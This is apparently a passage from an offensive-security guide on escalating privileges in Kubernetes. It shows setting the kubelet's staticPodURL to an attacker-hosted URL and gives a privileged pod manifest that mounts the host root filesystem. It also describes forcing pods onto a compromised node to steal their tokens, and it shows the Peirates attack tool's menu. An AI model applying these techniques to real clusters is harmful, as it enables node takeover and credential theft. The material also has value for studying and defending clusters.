 **Another more stealth way would be to:**

- Modify the param **`staticPodURL`** from **kubelet** config file and set something like `staticPodURL: http://attacker.com:8765/pod.yaml`. This will make the kubelet process create a **static pod** getting the **configuration from the indicated URL**.

**Example** of **pod** configuration to create a privilege pod in **kube-system** taken from [**here**](https://research.nccgroup.com/2020/02/12/command-and-kubectl-talk-follow-up/):

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: bad-priv2
  namespace: kube-system
spec:
  containers:
    - name: bad
      hostPID: true
      image: gcr.io/shmoocon-talk-hacking/brick
      stdin: true
      tty: true
      imagePullPolicy: IfNotPresent
      volumeMounts:
        - mountPath: /chroot
          name: host
  securityContext:
    privileged: true
  volumes:
    - name: host
      hostPath:
        path: /
        type: Directory
```

### Delete pods + unschedulable nodes

If an attacker has **compromised a node** and he can **delete pods** from other nodes and **make other nodes not able to execute pods**, the pods will be rerun in the compromised node and he will be able to **steal the tokens** run in them.\
For [**more info follow this links**](abusing-roles-clusterroles-in-kubernetes/#delete-pods-+-unschedulable-nodes).

## Automatic Tools

- [**https://github.com/inguardians/peirates**](https://github.com/inguardians/peirates)

```
Peirates v1.1.8-beta by InGuardians
  https://www.inguardians.com/peirates
----------------------------------------------------------------
[+] Service Account Loaded: Pod ns::dashboard-56755cd6c9-n8zt9
[+] Certificate Authority Certificate: true
[+] Kubernetes API Server: https://10.116.0.1:443
[+] Current hostname/pod name: dashboard-56755cd6c9-n8zt9
[+] Current namespace: prd
----------------------------------------------------------------
Namespaces, Service Accounts and Roles |
---------------------------------------+
[1] List, maintain, or switch service account contexts [sa-menu]  (try: listsa *, switchsa)
[2] List and/or change namespaces [ns-menu] (try: listns, switchns)
[3] Get list of pods in current namespace [list-pods]
[4] Get complete info on all pods (json) [dump-pod-info]
[5] Check all pods for volume mounts [find-volume-mounts]
[6] Enter AWS IAM credentials manually [enter-aws-credentials]
[7] Attempt to Assume a Different AWS Role [aws-assume-role]
```